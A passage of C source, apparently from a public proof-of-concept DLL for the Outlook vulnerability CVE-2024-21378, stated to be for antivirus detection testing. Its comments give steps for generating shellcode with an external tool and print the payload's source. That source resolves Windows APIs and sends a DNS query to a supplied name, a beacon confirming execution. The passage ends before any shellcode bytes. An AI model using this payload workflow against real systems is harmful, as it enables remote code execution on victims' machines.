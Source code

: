 ```c
 *
 *    The DLL can also be utilized by antivirus software developers for the
 *    purpose of developing and testing detection routines.
 *    It serves as a practical example for enhancing security measures against
 *    the CVE-2024-21378 vulnerability.
 *
 *    Authors: @Homer28
 *    License: MIT
 *
 */

#include <windns.h>
#include <windows.h>
#include <iostream>

/**
 * We don't put an arbitrary code into DllMain because it will cause
 * MS Outlook to freeze. Instead, our main payload will be
 * a shellcode that we start in a separate thread.
 * 
 * To create the shellcode, we will use the "easy_shellcode_generator" tool.
 * URL: https://github.com/Homer28/easy_shellcode_generator
 * 
 * Step-by-step instructions:
 * 
 * 1. Install Visual Studio 2022.
 * 2. Insert your C code into the shell_generator.cpp file.
 * 3. Compile the project.
 * 4. Use the pe_converter.py script to extract the shellcode,
 *    for example: py ./python/pe_converter.py "../bin/shell_generator.exe" "../bin/shellcode.h"
 * 
 *    This command can also be executed on Linux. Python3 and the Python3 pefile package are required.
 *
 * 5. Copy the content of shellcode.h below. 
 *
 * The below content is the result of compiling following C code.
 
 * int main(wchar_t *dns_str) {
 *     HMODULE mod_kernel32 = getKernel32_by_str();
 *
 *     fnGetProcAddress myGetProcAddress = (fnGetProcAddress)getAPIAddr_byStr(mod_kernel32, "getprocaddress");
 *     fnLoadLibraryA myLoadLibrary = (fnLoadLibraryA)myGetProcAddress(mod_kernel32, "LoadLibraryA");
 *
 *     HMODULE dnsLib = myLoadLibrary("DNSAPI.dll");
 *     fnDnsQuery_W myDnsQuery_W = (fnDnsQuery_W)myGetProcAddress(dnsLib, "DnsQuery_W");
 *
 *     PDNS_RECORD dnsRecord;
 *
 *     myDnsQuery_W(
 *         dns_str,
 *         DNS_TYPE_A,
 *         DNS_QUERY_STANDARD,
 *         NULL,
 *         &dnsRecord,
 *         NULL
 *     );
 *
 *     return 0;
 * }
 *
```